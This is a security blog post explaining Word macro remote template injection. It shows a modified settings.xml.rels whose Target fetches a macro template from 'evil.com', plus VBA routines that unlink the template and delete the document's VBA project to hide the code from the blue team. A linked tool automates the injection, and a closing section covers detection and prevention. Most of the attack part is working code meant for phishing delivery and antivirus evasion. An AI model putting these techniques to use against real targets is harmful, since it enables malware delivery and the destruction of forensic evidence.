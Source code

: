 ```yaml
---
title: VBA Macro Remote Template Injection With Unlinking & Self-Deletion
published: true
categories: [posts]
---
```


One of the most common methods leveraged by attackers is the use of Malicious Word/Excel Documents sent over email. These malicious docs are embedded with macro VBA code that, when run, execute various tasks on the victim’s computer, usually resulting in RCE (Remote Code Execution) and/or data exfiltration. 

There are numerous techniques used on these malicious docs to bypass anti-virus detection (VBAStomping, obfuscation, etc.). One such method is Remote Template Injection.

## [](#header-1)Remote Template Injection

Word/Excel docs are made up of a collection of XML files all zipped together. You can actually unzip these docs by renaming the extension to .zip and extracting the contents as you would any zipped file. The XML file that we’re most interested in is settings.xml.rels located in the folder word\_rels\. However, if you unzipped just any document and looked for this file, it is likely that it won’t exist.

This is because settings.xml.rels exists only for documents that were created from a template. This isn’t a huge issue, just make sure when you create the document, that it’s based off a pre-made template (you can choose any of the default templates Microsoft already provides). While the rest of this post should still apply to both Word and Excel documents, I will be referring specifically to Word documents for the remainder of the post, as I have not tested all of this on Excel.

Below shows the contents of settings.xml.rels that you would typically find with most documents:
> <?xml version=”1.0" encoding=”UTF-8" standalone=”yes”?>
> <Relationships xmlns=”http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id=”rId1" Type=”http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target=”file:////Users/johnwoodman/Library/Containers/com.microsoft.Word/Data/Library/Application%20Support/Microsoft/Office/16.0/DTS/en-US%7b95D41D06–9CC6-D74F-A607–2B7C0EB22DFC%7d/%7b33B4F4BC-0742–3849-AA14-CD5092D5B844%7dtf10002086.dotx” TargetMode=”External”/></Relationships>

The part to pay attention to is the “Target” attribute. At the moment, this attribute is pointing to a file on the local machine. What we are able to do is change the value so it points to a remote file, which will then be used as the template for that document. This template would contain the macros you want to be executed. You can specify either an HTTP(S) URL or a SMB address pointing to your template.

Below shows the contents of settings.xml.rels after it has been altered to point to a malicious web server containing a malicious word template:
> <?xml version=”1.0" encoding=”UTF-8" standalone=”yes”?>
> <Relationships xmlns=”http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id=”rId1" Type=”http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target=”https://evil.com/malicious.dotm" TargetMode=”External”/></Relationships>

Once edited, all you have to do is re-zip the XML files and rename the extension to .docx. All that is left to do is send malicious doc to your “target” and once opened (and content is enabled) the template is pulled from the malicious web server and the macro code inside it is executed.

I created a [tool](https://github.com/JohnWoodman/remoteinjector) that automates all this for you!

## [](#header-2)Unlinking & Self-Deletion

While Remote Template Injection can be very useful in evading anti-virus, once the template is run, the VBA code will remain in the document. This means if blue team gets ahold of the document, they can see all the malicious code that was executed.

The technique I found to get around this is by unlinking the template using VBA. The below snippet of VBA code shows how the unlinking is done, as well as how to prevent dialog boxes from popping up to the target user asking them to “Save Changes”.

```
Sub unlink()
    Application.DisplayAlerts = False
    On Error GoTo Destroy
    ThisDocument.AttachedTemplate.Saved = True
    CurrUser = Application.UserName
    tmpLoc = "C:\Users\" & CurrUser & "\AppData\Roaming\Microsoft\Templates\Normal.dotm"
    ActiveDocument.AttachedTemplate = tmpLoc
    ActiveDocument.AttachedTemplate.Saved = True
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
    ThisDocument.Close savechanges:=False
Exit Sub
Destroy:
    Call ThisDocument.DeleteVBAPROJECT
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
    ActiveDocument.AttachedTemplate.Saved = True
    ThisDocument.Close savechanges:=False
End Sub
```

Essentially, to unlink the current template you have to link the document to another template. In the above code, I am linking it to Normal.dotm, the default template found in every computer with Word installed.

The code in the “Destroy” section of the code is the self-deletion, essentially a fail-safe. If an error occurs in the unlinking process (either through Normal.dotm not existing, or another error that I will discuss below), then the function “DeleteVBAPROJECT” is called. This function deletes all the code in the template. Below is a snippet of that function’s code:

```
Sub DeleteVBAPROJECT()
    Application.DisplayAlerts = False
    Dim i As Long
    On Error Resume Next
    With ThisDocument.VBProject
        For i = .VBComponents.Count To 1 Step -1
            .VBComponents.Remove .VBComponents(i)
            .VBComponents(i).CodeModule.DeleteLines _
            1, .VBComponents(i).CodeModule.CountOfLines
        Next i
    End With
    On Error GoTo 0
    ThisDocument.Saved = True
    ActiveDocument.Saved = True
End Sub
```

This function serves only as a last-ditch effort if the unlinking method errors out.

To show that the Macro VBA code can not be viewed (at least not easily), the below image shows the VBA Editor of the malicious document before the macro has been run:

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/1.png)

You can see that the template “DocTemp” has been loaded into the document, but the VBA code itself has not. Even before the macro code is run, it is not view-able.

The following image shows the VBA Editor after the content has been enabled (note: in this scenario, the VBA Editor has not been opened prior to enabling content, the reason that is important is explained later):

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/2.png)

You can see the macro code from the template has been executed (popping calc.exe) and the template has successfully unlinked itself from the word document, no longer appearing in the VBA Editor.

As I referenced earlier, one of the errors that continued to happen with the unlink method occurred whenever I would open the malicious document, and then open and close the VBA Editor window. I am still unsure as to why simply opening the VBA Editor causes the unlink method to fail, but the self-deletion method is currently the best temporary solution, as it still gets rid of all lines of code that could be viewed by potential blue team.

The below image shows what remains if the VBA Editor is opened prior to enabling content:

![](/assets/2018-01-06-VBA-Macro-Remote-Template-Injection/3.png)

As you can see, the reference to DocTemp remains, however, all the VBA code has been deleted.

## [](#header-3)Detection/Prevention

This method isn’t perfect. While I haven’t found anyway to view the actual Macro VBA code from the target side (both before and after enabling content), there are still ways to view the function names as well as the source URL that the template is being retrieved from. To view the function names:

1. Open the malicious document, but do not enable content.
2. Select the “Macros” button in the Developer tab.

This will give you the function names, but only the names. You will not be able to edit or step into these functions as they technically have not been loaded yet.

To view the source URL of the template:

1. Open the malicious document, but do not enable content.
2. Select the “Document Template” button in the Developer tab.

This will display the URL that the malicious document is grabbing the template from, allowing you to potentially retrieve the template from that URL yourself and be able to fully analyze the macro VBA code.

In terms of prevention, disabling the ability for Word/Excel documents to retrieve templates remotely would be the most effective against this type of attack.

## [](#header-4)Conclusion

I made this post mostly to help me learn and better understand the security and inner workings behind Macros, but I hope it also gives insight into one of numerous techniques to evade anti-virus and static analysis, and also how to detect and prevent against it.

## [](#header-5)References

* [Executing Macros From a DOCX With Remote Template Injection by BinaryFaultline](http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html)

